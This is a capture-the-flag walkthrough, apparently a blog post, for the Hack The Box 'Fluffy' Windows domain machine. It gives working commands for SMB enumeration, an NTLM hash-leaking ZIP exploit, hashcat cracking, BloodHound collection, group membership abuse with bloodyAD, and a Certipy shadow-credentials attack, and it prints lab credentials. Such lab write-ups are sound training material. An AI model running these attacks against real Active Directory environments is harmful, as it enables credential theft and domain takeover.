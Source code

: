 ```yaml
---
title: "Fluffy"
date: 2025-08-10
categories: [HTB]
tags: [machine, ADCS, CVE,AD]
---
```

![Fluffy](/assets/2.png)

## Machine Information
As is common in real life Windows pentests, you will start the Fluffy box with credentials for the following account:  ```j.fleischman``` / ```J0elTHEM4n1990!```

## Nmap Scan
```shell
sudo nmap 10.10.11.69 -T4 -A -open -p-
```
```shell
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-21 04:05:16Z)
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-21T04:06:58+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-21T04:06:56+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-07-21T04:06:58+00:00; +6h59m59s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-21T04:06:56+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49710/tcp open  msrpc         Microsoft Windows RPC
49727/tcp open  msrpc         Microsoft Windows RPC
49750/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-07-21T04:06:17
|_  start_date: N/A
|_clock-skew: mean: 6h59m58s, deviation: 0s, median: 6h59m58s

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   170.58 ms 10.10.16.1
2   170.95 ms 10.10.11.69
```
We get some important data about target:

## SMB

So i started by testing the SMB port using the initial credentials:
```shell
nxc smb fluffy.htb -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares
```
Then we expanded and downloaded everything using:
```shell
nxc smb fluffy.htb  -u 'j.fleischman' -p 'J0elTHEM4n1990!' -M spider_plus -o DOWNLOAD_FLAG=True
```
![nxc_smb](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FX7MnVPxXGOWE7TkFP55N%252FScreenshot%2520From%25202025-07-24%252005-09-46.png%3Falt%3Dmedia%26token%3D10b19759-4999-4bd5-a4f0-f8570a1683b6&width=400&dpr=3&quality=100&sign=2618b13f&sv=2)
Checked the downloaded SMB files and found a PDF called Upgrade_Notice.pdf looked suspicious from the IT department listing CVEs affecting the current Windows version. 
One of them, CVE-2025-24996 (NTLM File Path Spoofing), has a working PoC on GitHub.
![Upgrade_Notice.pdf](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252Fq0AnquA03OphFgIg80bn%252Fimage.png%3Falt%3Dmedia%26token%3Dd062d06d-46a3-4c5c-be8f-6e49eb429c8e&width=400&dpr=3&quality=100&sign=13faa9f9&sv=2)

## CVE-2025-24996: NTLM Hash Leak via .library-ms File 
the link of POC: ```https://github.com/FOLKS-iwd/CVE-2025-24071-msfvenom```

![CVE-2025-24071](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FIgOwImNjv6GsZiXfzsUm%252Fimage.png%3Falt%3Dmedia%26token%3Db1be3b27-934f-4639-8342-cc405d6f9c2b&width=400&dpr=3&quality=100&sign=482ceac1&sv=2)

Let’s start exploiting it.

After following the steps in the PoC:
- Loaded the Metasploit module
- Set the attacker IP, filename, library name, and SMB share
- Ran the module and generated the malicious ZIP file ```(exploit.zip)```

Once the victim extracts the ZIP, Windows Explorer automatically processes the embedded ```.library-ms``` file. This triggers a connection attempt to the attacker's SMB server, resulting in NTLMv2 hash leakage.

You should see an output similar to the following:
![exploit](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252F9PJS7vnaCDkjdUxNUFbX%252FScreenshot%2520From%25202025-07-21%252004-06-39.png%3Falt%3Dmedia%26token%3D3b0c5fc8-8efe-4144-a186-10f94fd7b702&width=768&dpr=4&quality=100&sign=8ad495af&sv=2)
This hash can now be cracked offline using tools like hashcat or john to recover the user's cleartext password.

```shell
hashcat -m 5600 -a 0 ntlmv2.txt /home/kali/Downloads/rockyou.txt
```

![hashcat](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FapeoNuGmbWdeIa26qjBJ%252FScreenshot%2520From%25202025-07-21%252004-22-19.png%3Falt%3Dmedia%26token%3D6ca0f956-32f3-483b-84dc-ee506bf573c3&width=400&dpr=3&quality=100&sign=98ac6e59&sv=2)

now you have credentials of user target ```P.AGILA:prometheusx-303```


## BloodHound

I used the credentials for  ```p.agila@fluffy.htb``` and analyzed them with BloodHound.

```shell
bloodhound-python -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb -ns 10.10.11.69 -c All --zip
```
I found that this user is part of the ```SERVICE ACCOUNT MANAGERS group```, which has ```GenericAll``` privileges over the ```SERVICE ACCOUNTS group```. 
This means full control i can add or remove users, and modify settings for that group.
![BloodHound1](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FQGwJrGqNuvim9ifURpEc%252FScreenshot%2520From%25202025-07-24%252006-43-18.png%3Falt%3Dmedia%26token%3Ddd2630e6-68c2-4f23-ad3d-c72100a91ba8&width=400&dpr=3&quality=100&sign=130f1eb3&sv=2)
let's see what we got, SERVICE ACCOUNTS contains key accounts such as:
- WINRM_SVC@FLUFFY.HTB
- LDAP_SVC@FLUFFY.HTB
- CA_SVC@FLUFFY.HTB
![BloodHound2](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FfBcmqHW18XBDWYZk4bS4%252Fimage.png%3Falt%3Dmedia%26token%3Da2871440-54a6-4ee7-b090-f9d4c2a2b8e4&width=400&dpr=3&quality=100&sign=addd2495&sv=2)
If we see the user ```CA_SVC```, it's likely related to Certificate Services, and it may open a path to Active Directory Certificate Services (AD CS) exploitation.

This gives ```p.agila``` the ability to modify attributes of ```ca_svc```, a critical step for Shadow Credentials or Other attacks related to Certificate Services.
```shell
bloodyAD --host '10.10.11.69' -d 'dc01.fluffy.htb' -u 'p.agila' -p 'prometheusx-303'  add groupMember 'SERVICE ACCOUNTS' p.agila
```
By adding ```p.agila``` to SERVICE ACCOUNTS, I can potentially escalate privileges and gain further control through these service accounts.
![bloodyAD](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FMfl0tQ7Cp461M9UjB3fL%252Fimage.png%3Falt%3Dmedia%26token%3D11314faf-8c66-4310-9a9d-0ea0b75080c9&width=400&dpr=3&quality=100&sign=96288301&sv=2)
Now we are ```p.agila``` added to ```SERVICE ACCOUNTS``` what next step???

After some research, I discovered that the attack path involves Active Directory Certificate Services (AD CS) exploitation am one pf this attacks called To better understand this technique, I referenced this detailed blog:

https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally

https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6

## Shadow Credentials → $User 

> The old tool certipy-ad is outdated, so I used the updated and maintained Certipy tool instead https://github.com/ly4k/Certipy don't mix between them
{: .prompt-warning }

```shell
certipy shadow -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -account 'WINRM_SVC' auto
```
![Certipy](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FpZSFWengHFPG9lJl0gBq%252Fimage.png%3Falt%3Dmedia%26token%3Dfdb6141b-4c81-477c-a741-1d1a2ae7b14b&width=400&dpr=3&quality=100&sign=b757e698&sv=2)

The ```KRB_AP_ERR_SKEW``` error occurs because your machine’s clock is out of sync with the Domain Controller ```10.10.11.69```, breaking Kerberos authentication for the Shadow Credentials attack. Fix it by syncing time with ```sudo ntpdate 10.10.11.69```

> Kerberos SessionError: KRB_AP_ERR_SKEW (Clock skew too great)
It means your machine's clock is out of sync with the domain controller and Kerberos hates that.
Fix it with:
{: .prompt-warning }
```shell
bashCopyEditsudo systemctl stop systemd-timesyncd
sudo ntpdate 10.10.11.69
This stops the system time service and manually syncs your clock with the DC (10.10.11.69), so you can get Kerberos tickets properly again.
```